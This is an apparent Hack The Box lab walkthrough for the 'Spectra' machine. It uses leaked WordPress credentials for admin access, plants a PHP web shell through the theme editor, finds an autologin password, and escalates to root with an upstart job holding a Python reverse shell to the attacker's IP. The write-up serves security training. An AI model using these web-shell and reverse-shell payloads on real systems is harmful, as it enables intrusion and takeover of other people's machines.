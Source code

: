 ```yaml
---
permalink: /htb/spectra
title: Spectra
---
```


<br>

# Nmap

```bash
$ nmap 10.10.10.229
Starting Nmap 7.93 ( https://nmap.org ) at 2022-10-28 03:56 AEST
Nmap scan report for 10.10.10.229
Host is up (0.68s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 79.01 seconds
```

We can visit http://10.10.10.229/

Add `10.10.10.229 spectra.htb` to /etc/hosts

Looking around we can see index of http://spectra.htb/testing/ is available to us.

From there we can go to http://spectra.htb/testing/wp-config.php.save the code is hidden in a php tag but we can view it in the page source (ctrl U).

```php

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define( 'DB_NAME', 'dev' );

/** MySQL database username */
define( 'DB_USER', 'devtest' );

/** MySQL database password */
define( 'DB_PASSWORD', 'devteam01' );
```

I tried to login but got this error:

```bash
[~/Documents/HTB/spectra] 
$ mysql -h 10.10.10.229 -u devteam -p -D dev 
Enter password: 
ERROR 1130 (HY000): Host '10.10.16.17' is not allowed to connect to this MySQL server
```

Our password is correct, but our IP is not authorised.

I had luck with wordpress however: http://spectra.htb/main/wp-login.php

`administrator:devteam01`

Go to Appearance > Theme Editor

Change Twenty Twenty to something else, eg Twenty Nineteen

Click some php page, eg 404.php

Replace the code with

```php
<?php system($_REQUEST['connor']); ?>
```

and update file.

I ran into this issue <https://stackoverflow.com/questions/52671255/wordpress-editor-not-updating-files-unable-to-communicate-back-with-site-to-che>

where disabling then re-enabling all plugins fixed it.

Now we can run commands: http://spectra.htb/main/wp-content/themes/twentynineteen/404.php?connor=whoami

Tip: use `cat ... | xclip -selection clipboard` to copy large files to clipboard

We'll use a [php reverse shell](https://github.com/BlackArch/webshells/blob/master/php/php-reverse-shell.php)

```bash
$ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.229.
Ncat: Connection from 10.10.10.229:35376.
Linux spectra 5.4.66+ #1 SMP Tue Dec 22 13:39:49 UTC 2020 x86_64 AMD EPYC 7302P 16-Core Processor AuthenticAMD GNU/Linux
 16:25:03 up  5:28,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY        LOGIN@   IDLE   JCPU   PCPU WHAT
uid=20155(nginx) gid=20156(nginx) groups=20156(nginx)
$ cd /home
$ whoami
nginx
$ ls
chronos
katie
nginx
root
user
$ cd katie
$ ls
log
user.txt
$ 
```

With `cat /etc/lsb-release` we see it is using ChromeOS

#

# Lateral Move

We are currently the nginx user and want to pivot to Katie.

Running linPEAS let's us find katie's password:

```bash
$ cat /etc/autologin/passwd
SummerHereWeCome!!
```

```bash
$ ssh katie@spectra.htb
The authenticity of host 'spectra.htb (10.10.10.229)' can't be established.
RSA key fingerprint is SHA256:lr0h4CP6ugF2C5Yb0HuPxti8gsG+3UY5/wKjhnjGzLs.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'spectra.htb' (RSA) to the list of known hosts.
(katie@spectra.htb) Password: 
katie@spectra ~ $ ls
log  user.txt
katie@spectra ~ $ cat user.txt 
e89d27fe195e9114ffa72ba8913a6130
```

# Privesc

```bash
katie@spectra ~ $ sudo -l
User katie may run the following commands on spectra:
    (ALL) SETENV: NOPASSWD: /sbin/initctl
```

We can see she is in the developers group and can access these files:

```bash
katie@spectra ~ $ id
uid=20156(katie) gid=20157(katie) groups=20157(katie),20158(developers)
katie@spectra ~ $ find / -group developers 2>/dev/null
/etc/init/test6.conf
/etc/init/test7.conf
/etc/init/test3.conf
/etc/init/test4.conf
/etc/init/test.conf
/etc/init/test8.conf
/etc/init/test9.conf
/etc/init/test10.conf
/etc/init/test2.conf
/etc/init/test5.conf
/etc/init/test1.conf
/srv
/srv/nodetest.js
katie@spectra ~ $ 
```

Edit `etc/init/test1.conf`to get a python reverse shell:

```python
start on pwn
task
exec python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.17",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

```bash
katie@spectra ~ $ sudo /sbin/initctl emit pwn
```

```bash
$ nc -lvnp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.229.
Ncat: Connection from 10.10.10.229:35394.
# cat /root/root.txt
d44519713b889d5e1f9e536d0c6df2fc
# 
```
